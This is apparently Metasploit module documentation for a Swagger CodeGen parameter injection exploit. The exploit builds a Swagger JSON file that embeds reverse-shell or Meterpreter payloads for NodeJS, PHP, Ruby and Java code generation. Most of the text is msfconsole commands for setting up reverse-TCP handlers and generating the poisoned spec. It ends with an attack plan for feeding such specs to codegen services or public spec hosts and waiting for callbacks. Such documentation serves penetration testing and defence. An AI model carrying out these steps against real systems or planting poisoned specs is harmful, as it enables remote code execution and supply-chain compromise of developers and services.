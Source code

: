 The [Swagger CodeGen parameter injector module](../../../../../modules/exploits/multi/fileformat/swagger_param_inject.rb) generates a Swagger JSON file with embedded Metasploit payloads.

In the typical case, a Swagger document defines an API.  Swagger can be automatically consumed to generate client/server code, testing and scaffolding in APIs by companies eager to provide value to the increasing need for scalable API deployment and testing.

Currently, this module supports 4 languages for delivery: NodeJS, PHP, Ruby, and Java.  These are specified by the PAYLOAD set for the exploit module.


## Verification Steps

All exploits assume a bind or reverse-tcp callback handler, with preference on reverse-tcp. 

1. Start msfconsole
2. Start a callback handler listening for a the appropriate payload (e.g.)

```
use exploit/multi/handler  
set PAYLOAD nodejs/shell_reverse_tcp

set LHOST 192.168.68.138 
set LPORT 4444

run 
```
3. Pick a target 

## Targets

**NodeJS** 

This attack injects a payload into javascript by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD nodejs/shell_reverse_tcp
set INFO_VERSION "1.0.0"
set SWAGGER_HOST "localhost"
run 
```

**PHP** 

This attack injects a payload into PHP multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD php/meterpreter/reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**ruby** 

This attack injects a payload into ruby multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD ruby/shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**Java** 

This attack injects a payload into Java by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD java/jsp_shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

## Quick Test

Use the online [editor.swagger.io](http://editor.swagger.io) to upload your swagger document, and generate pre-built code bases from the document.  The swagger editor leverages [generator.swagger.io](http://generator.swagger.io) to build these clients & servers automatically from the document, and published downloadable artifacts of these code bases.


## Scenarios

Effective against services with either these dependencies

*  [swagger-codegen](https://github.com/swagger-api/swagger-codegen)
  * public API [generator.swagger.io](http://generator.swagger.io/)
  * public docker container [swagger-generator/](https://hub.docker.com/r/swaggerapi/swagger-generator/)
* [swagger-test-templates](https://github.com/apigee-127/swagger-test-templates)

**Possible Attack approach.**

1. Research the target environment and component dependencies.  
2. Setup appropriate payload callback listener.
3. generate the appropriate swagger document with associated MS payload (see above for examples)


**Against a webservice (2nd order attack / blind code-gen)**

*Who knows what insecurely configured code-gen Docker containers hosted in data compute or API broker cluster could do if given the chance...*
 
4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

**Against a code repository or public hosting of spec**

*People and Robots trust swagger to build clients, servers, mocks, and more.  Publicly hosted specs should be verified as to not corrupt automatic code generation.*

4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

